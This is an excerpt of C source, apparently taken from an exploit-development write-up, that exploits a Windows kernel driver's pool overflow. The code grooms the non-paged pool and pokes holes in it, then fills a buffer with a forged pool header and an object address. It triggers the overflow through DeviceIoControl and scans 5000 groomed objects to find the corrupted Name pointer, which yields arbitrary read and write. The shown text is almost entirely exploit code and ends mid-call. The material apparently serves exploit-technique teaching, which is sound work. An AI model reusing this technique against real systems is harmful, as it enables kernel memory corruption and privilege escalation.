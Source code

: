 ```c

    // Store the main ARW_HELOPER_OBJECT
    ARW_HELPER_OBJECT_IO mainObject = createmainObject(driverHandle);

    // Fill the holes
    fillHoles(driverHandle);

    // Groom the pool
    groomPool(driverHandle);

    // Poke holes
    pokeHoles(driverHandle);

    // Use buffer overflow to take "main" ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object's Name value (managed by ARW_HELPER_OBJECT_IO.Name) to overwrite any of the groomed ARW_HELPER_OBJECT_NON_PAGED_POOL_NX.Name values
    // Create a buffer that first fills up the vulnerable chunk of 0x10 (16) bytes
    unsigned long long vulnBuffer[5];
    vulnBuffer[0] = 0x4141414141414141;
    vulnBuffer[1] = 0x4141414141414141;

    // Hardcode the _POOL_HEADER value for a ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object
    vulnBuffer[2] = 0x6b63614802020000;

    // Padding
    vulnBuffer[3] = 0x4141414141414141;

    // Overwrite any of the adjacent ARW_HELPER_OBJECT_NON_PAGED_POOL_NX object's Name member with the address of the "main" ARW_HELPER_OBJECT_NON_PAGED_POOL_NX (via ARW_HELPER_OBJECT_IO.HelperObjectAddress)
    vulnBuffer[4] = mainObject.HelperObjectAddress;

    // Bytes returned
    DWORD bytesreturnedOverflow;
    DWORD bytesreturnedreadPrimtitve;

    printf("[+] Triggering the out-of-bounds-write via pool overflow!\n");

    // Trigger the pool overflow
    DeviceIoControl(
        driverHandle,
        0x0022204b,
        &vulnBuffer,
        sizeof(vulnBuffer),
        &vulnBuffer,
        0x28,
        &bytesreturnedOverflow,
        NULL
    );

    // Find which "groomed" object was overflowed
    int index = 0;
    unsigned long long placeholder = 0x9090909090909090;

    // Loop through every groomed object to find out which Name member was overwritten with the main ARW_HELPER_NON_PAGED_POOL_NX object
    for (int i = 0; i <= 5000; i++)
    {
        // The placeholder variable will be overwritten. Get operation will overwrite this variable with the real contents of each object's Name member
        helperobjectArray[i].Name = &placeholder;

        DeviceIoControl(
```